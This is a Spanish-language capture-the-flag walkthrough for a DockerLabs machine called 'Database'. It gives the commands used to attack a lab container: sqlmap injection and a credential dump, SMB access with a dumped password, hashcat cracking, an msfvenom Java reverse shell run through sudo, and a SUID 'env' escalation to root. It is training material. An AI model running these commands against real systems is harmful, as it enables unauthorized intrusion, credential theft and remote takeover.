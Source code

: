 ```yaml
---
title: Database
author: Ldeluq
date: 2019-08-08 14:10:00 +0800
categories: [Ctf, DockerLabs]
tags: [ciber]
render_with_liquid: false
---
```




iniciamos la maquina 

![Descripción de la imagen](/imagenes/pasted_image_20241129171203.png)

escaneamos puertos con nmap  `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2` 
 
![[Pasted image 20241129171313.png]](/imagenes/Pasted%20image%2020241129171313.png)

entramos a la dirrecion desde el navegador 

![[Pasted image 20241129171346.png]](/imagenes/Pasted%20image%2020241129171346.png)

buscamos si el login tiene alguna vulneravilidad sql `sqlmap -u http://172.17.0.2:80/index.php --dbs --forms` 

![[Pasted image 20241129171558.png]](/imagenes/Pasted%20image%2020241129171558.png)

encontramos bases de datos que exploraremos 
 `sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables` 
 
 ![[Pasted image 20241129171705.png]](/imagenes/Pasted%20image%2020241129171705.png)
 
 `sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables -T users --columns --batch`
 
 ![[Pasted image 20241129171823.png]](/imagenes/Pasted%20image%2020241129171823.png)
 
`sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables -T users --columns -C username,passwd --batch --dump`

![[Pasted image 20241129171940.png]](/imagenes/Pasted%20image%2020241129171940.png)

con las credenciales encontradas probamos en el login 

![[Pasted image 20241129172039.png]](/imagenes/Pasted%20image%2020241129172039.png)

en nmap observamos que esta base de datos corria en samba asi que hacemos uso de smbmap `smbmap -H 172.17.0.2 -u 'dylan' -p 'KJSDFG789FGSDF78'`

![[Pasted image 20241129172223.png]](/imagenes/Pasted%20image%2020241129172223.png)

tenemos permisos de lectura y escritura en shared `smbclient -U 'dylan' //172.17.0.2/shared` 

![[Pasted image 20241129172319.png]](/imagenes/Pasted%20image%2020241129172319.png)

con el comando get descargamos el archivo txt que encontramos de nombre augustus,txt

![[Pasted image 20241129172409.png]](/imagenes/Pasted%20image%2020241129172409.png)

vemos que es un tipo de hash procedemos a identificar y decifrar 

![[Pasted image 20241129172508.png]](/imagenes/Pasted%20image%2020241129172508.png)

`echo "061fba5bdfc076bb7362616668de87c8" > hashes.txt   ---  hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`

![[Pasted image 20241129172730.png]](/imagenes/Pasted%20image%2020241129172730.png)

entramos mediante ssh con el usuario augustus y la contrasena obtenida  `ssh -p22 augustus@172.17.0.2` 

![[Pasted image 20241129172918.png]](/imagenes/Pasted%20image%2020241129172918.png)

usamos msfvenom para hacernos una revershell ya que el usuario dylan puede ejecutar codigo java 
 `msfvenom -p java/shell_reverse_tcp LHOST=<tu-ip> LPORT=4444 -f jar -o shell.jar`
 nos colocamos en escucha y luego ejecutamos nuestro archivo desde el usuario augustus 
 
 ![[Pasted image 20241129173148.png]](/imagenes/Pasted%20image%2020241129173148.png)
 
  con este comando subes tu archivo jar a la maquina victima `scp <archivo> augustus@172.17.0.2:/tmp` luego ejecutas `sudo -u dylan /usr/bin/java -jar /tmp/shell.jar`
  
  ![[Pasted image 20241129173519.png]](/imagenes/Pasted%20image%2020241129173519.png)
  
  le das tratamiento a la tty para tener la interfaz dylan `script /dev/null -c bash`
 luego para buscar los recursos que ejecuta el usuario  `find / -perm -4000 2>/dev/null`
 ya puedes observar que tienes permiso en la ruta env `/usr/bin/env /bin/sh -p`
 y listo eres root 
 
![[Pasted image 20241129173801.png]](/imagenes/Pasted%20image%2020241129173801.png)


   


